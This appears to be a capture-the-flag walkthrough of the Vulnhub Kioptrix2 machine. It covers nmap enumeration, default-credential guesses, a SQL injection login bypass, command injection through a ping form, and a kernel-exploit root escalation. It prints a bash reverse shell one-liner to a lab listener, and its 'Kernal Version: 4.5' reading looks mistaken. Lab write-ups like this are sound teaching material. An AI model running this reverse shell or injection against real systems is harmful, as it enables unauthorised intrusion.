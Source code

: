 ```yaml
---
title: Vulnhub - Kioptrix2
published: true
---
```


Hey Guys This is Chan.This is a write up about kioptrix2 from vlunhub.

This is an really easy machine.So let's get jump in 

# [](#haeder-1)Enumeration

# [](#header-2)Port Scan

```
root@kali:~# nmap -sC -sV 192.168.99.42
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-29 15:11 EST
Nmap scan report for 192.168.99.42
Host is up (0.00019s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
|_ssl-date: 2019-12-30T01:12:18+00:00; +5h00m02s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:FC:FD:CE (Oracle VirtualBox virtual NIC)

Host script results:
|_clock-skew: 5h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.63 seconds
```
When I check nmap there is nothing was interesting 

So go to the web page 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/web-page.png)

and it is login page so I try 

```admin:admin
guest:guest
adminstrator:admin123
```

So then I try sqli auth bypass payload 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/sqli-admin-test.png.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/web-shell.png.png)

it said ping a machine on the network when I typed test and it show up test

So I realized that I can exute cmd in this so let's try 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/excute-command.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/command-excuted.png)

So here our comd excuted user as apache

So let's try to get reverse shell 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/try%20to%20get%20reverse%20shell.png)

```
bash -i >& /dev/tcp/192.168.99.48/9001 0>&1
```

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/getting%20reverse%20shell.png)

So here we got reverse shell

# [#heaader-2]Privillege Escalation

So here we check the kernal version 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/check%20kernal%20version.png)

```
Kernal Version: 4.5
```
Then search for exploit

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/found%20exploit.png)

Then I upload this exploit to machine 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/upload%20exploit.png)

Compiling the exploit and excute it then we got the shell with root 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/exute%20exploit%20and%20get%20root.png)

That's it really easy 

Enjoy:-)
